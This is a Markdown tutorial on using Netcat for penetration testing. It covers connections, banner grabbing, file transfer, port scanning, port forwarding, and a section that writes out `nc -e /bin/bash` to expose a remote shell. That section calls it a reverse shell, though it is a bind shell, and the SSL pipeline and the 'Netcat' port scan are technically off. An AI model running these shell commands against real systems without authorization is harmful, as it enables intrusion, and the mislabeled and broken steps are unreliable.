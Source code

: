 # Detailed Documentation on Using Netcat for Network Penetration Testing

## Introduction

Netcat, often referred to as the "Swiss Army Knife" of networking, is a versatile and essential tool for network penetration testing and security assessment. Netcat can be used for various networking tasks, including port scanning, banner grabbing, creating reverse shells, and transferring files. This documentation will guide you through using Netcat effectively for network penetration testing.

## Installation

Netcat is typically available by default on most Linux distributions and macOS. If it is not installed, you can download it from the [Netcat download page](https://eternallybored.org/misc/netcat/).

## Basic Usage

### 1. Basic TCP Connections

- Netcat can be used to establish a basic TCP connection to a remote server:

  ```bash
  nc <host> <port>
  ```

  Replace `<host>` with the IP address or hostname of the target server and `<port>` with the port you want to connect to.

### 2. Banner Grabbing

- Netcat can be used to connect to a remote server and grab the banner information:

  ```bash
  nc -v <host> <port>
  ```

  The `-v` option enables verbose mode and displays the banner information.

### 3. Listening as a Server

- Netcat can be used to listen on a specific port as a server to accept incoming connections:

  ```bash
  nc -l -p <port>
  ```

  Replace `<port>` with the port you want to listen on.

### 4. File Transfer

- Netcat can be used for simple file transfers. On the sending side, use the following command:

  ```bash
  nc -l -p <port> < file_to_send
  ```

  On the receiving side, use:

  ```bash
  nc -v <host> <port> > received_file
  ```

### 5. Port Scanning

- Netcat can be used for basic port scanning by connecting to a series of ports on a target system:

  ```bash
  for port in $(seq <start_port> <end_port>); do
      (echo >/dev/tcp/<host>/$port) &>/dev/null && echo "Port $port is open" || echo "Port $port is closed";
  done
  ```

  Replace `<start_port>` and `<end_port>` with the range of ports you want to scan and `<host>` with the target host.

## Advanced Usage

### 1. Creating Reverse Shells

- Netcat can be used to create reverse shells, which allow you to gain access to a remote system. On the target system, use:

  ```bash
  nc -l -p <port> -e /bin/bash
  ```

  On the attacker system, use:

  ```bash
  nc <target> <port>
  ```

  Replace `<port>` with the port you want to listen on for the reverse shell and `<target>` with the IP address of the target system.

### 2. Port Forwarding

- Netcat can be used for port forwarding, which can be useful for pivoting and redirecting traffic:

  ```bash
  nc -l -p <local_port> -c "nc <destination_host> <destination_port>"
  ```

  This command listens on `<local_port>` and forwards incoming connections to `<destination_host>` on `<destination_port>`.

### 3. SSL Encryption

- You can use `openssl` in combination with Netcat to create an encrypted connection. On the server side, use:

  ```bash
  openssl s_server -quiet -key server-key.pem -cert server-cert.pem -port <port> | nc -l -p <port>
  ```

  On the client side, use:

  ```bash
  nc -v <host> <port> | openssl s_client -quiet
  ```

  Replace `<port>`, `<host>`, `server-key.pem`, and `server-cert.pem` as appropriate for your setup.

## Conclusion

Netcat is a valuable tool for network penetration testing and has a wide range of applications, from basic connections and banner grabbing to creating reverse shells and transferring files. Always use Netcat responsibly, and ensure that you have explicit authorization to conduct network penetration tests, as unauthorized testing is illegal and unethical.
